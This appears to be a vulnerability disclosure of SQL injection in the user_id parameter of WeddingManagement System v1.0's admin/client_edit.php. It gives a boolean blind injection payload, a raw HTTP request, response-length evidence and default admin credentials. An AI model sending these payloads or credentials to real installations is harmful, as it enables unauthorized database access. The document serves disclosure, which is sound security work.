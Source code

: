 # WeddingManagement System v1.0 by codeastr.com has SQL injection

Author： k0xx

The password for the backend login account is: admin@mail.com/Password@123

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: /Wedding-Management/admin/client_edit.php?booking=31&user_id=

Vulnerability location: /Wedding-Management/admin/client_edit.php?booking=31&user_id=,user_id

[+] Payload: /Wedding-Management/admin/client_edit.php?booking=31&user_id=31%20and%20length%20(database())%20=9 // Leak place ---> user_id

Current database name: dbwedding,length is 9

```sql
GET /Wedding-Management/admin/client_edit.php?booking=31&user_id=31%20and%20length%20(database())%20=9 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

When length (database ()) = 8, Content-Length: 14701

![image](https://user-images.githubusercontent.com/54017627/167992100-dbb3bab5-b424-4589-a197-0f31f553c65c.png)

![image](https://user-images.githubusercontent.com/54017627/167992026-9a68a2d4-cf6f-42d1-8843-0a6207a73a21.png)

When length (database ()) = 9, Content-Length: 14095

![image](https://user-images.githubusercontent.com/54017627/167992069-91098888-9733-4927-9ee5-da6a031f4279.png)

![image](https://user-images.githubusercontent.com/54017627/167992038-bd21be92-c19e-43a2-9d42-60815c3ab9b4.png)

